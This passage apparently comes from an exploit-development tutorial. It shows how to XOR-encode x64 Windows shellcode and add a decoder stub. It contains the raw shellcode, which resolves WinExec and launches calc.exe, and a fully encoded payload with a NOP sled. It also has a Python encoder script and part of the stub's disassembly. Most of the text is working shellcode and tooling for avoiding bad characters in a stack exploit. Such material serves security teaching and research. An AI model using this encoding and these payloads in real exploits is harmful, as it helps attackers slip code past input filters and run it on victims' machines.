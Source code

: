 ***Encoding our shellcode and adding a Decoder Stub***
-

Here's what that looks like:

```cpp
payload = b"\x90\x90\x90\x90\x90\x90\x90\x90\x48\x31\xc9\x48\x8d\x35\xf8\xdd\xdd\xfd\x81\xc6\x22\x22\x22\x02\x48\x89\xf3\x48\x8d\x36\xb1\xcf\xb0\xac\x30\x06\x48\xff\xc6\x48\xff\xc9\x75\xf6\xe4\x2f\x40\x84\xe4\x2f\x48\x5c\xe4\x9d\x65\xc9\xe4\x27\xed\xcc\xe4\x27\xec\xb4\xe4\x27\xdc\xbc\xe4\x27\x9a\xe4\x27\x9a\xe4\x27\xf2\x9c\xe5\x25\x74\x27\xf7\x90\xe0\xad\x6f\xe4\x9d\x65\xca\x2d\x6d\x53\x24\xe4\x6d\x45\xa4\x27\xb8\xa7\xe0\xad\x6e\xe8\x27\xfe\xb8\xe1\x9d\x77\xe8\x27\xf6\x8c\xe1\xad\x6f\xe0\x25\x7d\xe4\x14\xfb\xc5\xc2\xe9\xd4\xc9\xcf\x3c\xe4\x6d\x4c\xa4\xe4\x6d\x44\xa4\xfc\xe4\x25\x4c\xe4\x2f\x68\xa4\xcb\x4f\xbb\x9d\x77\xed\x27\xf0\x27\xa8\xe0\xad\x6f\xe4\x53\x65\xe0\x27\xa4\xe0\x95\xa7\xd8\xaf\xd9\x4a\x60\xfd\xed\xf3\xe0\x25\x55\xe1\x9d\x77\xe8\x27\xf6\x88\xe1\xad\x6f\xe4\x53\x6d\xca\xe9\x27\x80\xe7\xe1\x9d\x77\xe8\x27\xf6\xb0\xe1\xad\x6f\xef\x27\xe8\x07\xa8\xe0\xad\x6c\xfc\xed\xf3\xe4\x9d\x6c\xfc\xe4\x14\xcf\xcd\xc0\xcf\x82\xc9\xd4\xc9\xfc\xe4\x25\x4d\xe4\x9d\x7e\xe4\x53\x6e\xe4\x2f\x40\x9c\xed\x53\x7b" #251 bytes
```

We've got a nop sled at the beginning which I'll explain in more detail later.  Anyways, the encoded shellcode above was produced by XOR'ing each byte with 0xAC, like so:

```python
shellcode =  b"\x48\x83\xec\x28\x48\x83\xe4\xf0\x48\x31\xc9\x65\x48\x8b\x41\x60\x48\x8b"
shellcode += b"\x40\x18\x48\x8b\x70\x10\x48\x8b\x36\x48\x8b\x36\x48\x8b\x5e\x30\x49\x89"
shellcode += b"\xd8\x8b\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9"
shellcode += b"\x08\x8b\x14\x0b\x4c\x01\xc2\x44\x8b\x52\x14\x4d\x31\xdb\x44\x8b\x5a\x20"
shellcode += b"\x4d\x01\xc3\x4c\x89\xd1\x48\xb8\x57\x69\x6e\x45\x78\x65\x63\x90\x48\xc1"
shellcode += b"\xe0\x08\x48\xc1\xe8\x08\x50\x48\x89\xe0\x48\x83\xc4\x08\x67\xe3\x17\x31"
shellcode += b"\xdb\x41\x8b\x5c\x8b\x04\x4c\x01\xc3\x48\xff\xc9\x4c\x8b\x08\x4c\x39\x0b"
shellcode += b"\x74\x03\x75\xe6\xcc\x51\x41\x5f\x4c\x89\xf9\x4d\x31\xdb\x44\x8b\x5a\x24"
shellcode += b"\x4d\x01\xc3\x48\xff\xc1\x66\x45\x8b\x2c\x4b\x4d\x31\xdb\x44\x8b\x5a\x1c"
shellcode += b"\x4d\x01\xc3\x43\x8b\x44\xab\x04\x4c\x01\xc0\x50\x41\x5f\x48\x31\xc0\x50"
shellcode += b"\x48\xb8\x63\x61\x6c\x63\x2e\x65\x78\x65\x50\x48\x89\xe1\x48\x31\xd2\x48"
shellcode += b"\xff\xc2\x48\x83\xec\x30\x41\xff\xd7"
#calc shellcode no nulls (207 bytes)

xor_key = 0xAC  # Use a key that avoids bad characters

encoded_shellcode = bytearray()
for byte in shellcode:
    encoded_shellcode.append(byte ^ xor_key)

print(f"Encoded Shellcode: {' '.join([f'0x{b:02x}' for b in encoded_shellcode])}")
print(f"XOR Key: 0x{xor_key:02x}")
```

I chose `0xAC` because it's a nice and cooperative byte to use with encoding our shellcode and removing all whitespace, null, and non-printable characters that would crash our exploit or in the least it would mangle our payload as it's being added to the stack.  

In the encoded shellcode above, I include a `decode stub routine` at the beginning of the shellcode that looks like this:

```nasm
0000000000E20007 | 48:31C9                  | xor rcx,rcx                                |
0000000000E2000A | 48:8D35 F8DDDDFD         | lea rsi,qword ptr ds:[FFFFFFFFFEBFDE09]    |  This is used simply to remove nulls
0000000000E20011 | 81C6 22222202            | add esi,2222222                            |  Continuation of the above
0000000000E20017 | 48:89F3                  | mov rbx,rsi                                |
0000000000E2001A | 48:8D36                  | lea rsi,qword ptr ds:[rsi]                 |  Load effective address of shellcode into RSI
0000000000E2001D | B1 CF                    | mov cl,CF                                  |  Set RCX as the length of the encoded shellcode
0000000000E2001F | B0 AC                    | mov al,AC                                  |  Load XOR key into RAX (64-bit)
```